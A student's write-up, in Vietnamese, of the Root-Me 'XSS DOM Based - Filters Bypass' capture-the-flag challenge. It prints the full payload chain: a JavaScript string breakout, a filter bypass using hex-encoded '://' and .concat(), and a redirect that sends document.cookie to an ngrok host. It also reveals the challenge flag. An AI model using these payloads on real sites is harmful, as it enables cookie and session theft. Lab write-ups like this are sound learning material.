

# Challenge: XSS DOM Based - Filters Bypass
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 120 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass

- Như những bài XSS DOM khác cũng có 2 trang, 1 trang main và trang contact
- Ta thử nhập chuỗi bất kì, và kiểm tra mã nguồn

- Ta thấy input được chèn vào number trong đoạn js. Do vậy ta thử nhập chuỗi `',number=random,a='` ta thấy đã thực hiện được gán `number= random` là thành công.

- Ta thử với input = `',document.location='http://95fa-113-161-66-128.ngrok.io'+document.cookie,a='` khi đó ta thấy được web đã phát hiện đường dẫn chuyển hướng trang web, ta cần bybass cái này trước

- Thành phần quan trọng nhất của đường dẫn là `://` từ đó nhận dạn đường link, do vậy ta thử thay thế 3 kí tự này thành mã hex `\x3a\x2f\x2f`. Thử lại với input = `',document.location='http\x3a\x2f\x2f95fa-113-161-66-128.ngrok.io'+document.cookie,a='`

- Ta thấy đã không còn thông báo phát hiện đường dẫn, ta thử kiểm tra mã nguồn. Tại đây ta thấy kí tự `+` bị mất. do vậy ta sẽ dùng string.concat() như bài (XSS-Reflected).

- Khi đó input nhập vào là `',document.location='http\x3a\x2f\x2f95fa-113-161-66-128.ngrok.io'.concat(document.cookie),a='`

- Đến đây tự cảm thấy khá là khả quan tuy nhiên không có kết quả gì, ta thử ở `console`. Ta thấy nó bị lỗi không được khai báo document.location ở var. do vậy ta sẽ đặt `hack=(document.location='http\x3a\x2f\x2f95fa-113-161-66-128.ngrok.io/?cookie='.concat(document.cookie))`. Lúc này ta sẽ thấy nó tự chuyển trang, Ta đã THÀNH CÔNG.

- Thực hiện gởi input = `',hack=(document.location='http\x3a\x2f\x2f95fa-113-161-66-128.ngrok.io/?cookie='.concat(document.cookie)),a='`
- Như những bài XSS DOM khác, ta lấy link khi request input lúc nãy, và gởi vào trang `contact` để cho admin request nó.

- Ở trên server của PHP ta nhận được request của admin có chứa flag

## Kết quả flag là `rootme{FilTERS_ByPass_DOm_BASEd_XSS}`